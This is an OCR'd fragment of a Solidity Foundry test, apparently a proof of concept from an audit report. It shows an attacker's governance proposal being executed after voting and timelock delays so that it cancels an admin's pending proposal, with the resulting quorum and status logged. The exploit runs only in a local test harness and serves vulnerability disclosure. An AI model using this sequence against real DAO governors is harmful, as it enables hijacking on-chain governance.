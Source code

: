 ```Solidity
        uint pid2 = governor.propose(t2, v2, c2, d2, MAINNET);
        hevm.warp(block.timestamp + governor.votingDelay() + 1); // voting delay
        hevm.roll(block.number + 1);
        hevm.stopPrank();

        // vote
        hevm.startPrank(beef);
        governor.castVote(pid2, 1);
        hevm.stopPrank();

        hevm.startPrank(dead);
        governor.castVote(pid2, 1);
        hevm.stopPrank();

        hevm.warp(block.timestamp + governor.votingPeriod() + 1); // voting period

        // execution of the last proposal
        hevm.startPrank(beef);
        hevm.warp(block.timestamp + timelockExecutor.executionDelay() + 1); // execution delay
        governor.execute(t2, v2, c2, keccak256(bytes(d2)), MAINNET);
        hevm.stopPrank();

        uint currentQuorum = governor.quorumNumerator();
        console2.log("Current Quorum:  ", currentQuorum);

        // execution of the attacker's proposal which cancels the admin's proposal
        hevm.startPrank(dead);
        hevm.warp(block.timestamp + timelockExecutor.executionDelay() + 1); // execution delay
        governor.execute(t1, v1, c1, keccak256(bytes(d1)), MAINNET);
        hevm.stopPrank();

        uint proposalStatus = uint(governor.state(pid));
        console2.log("Proposal Status is: ", proposalStatus); // The initial proposal is cancelled
    }
```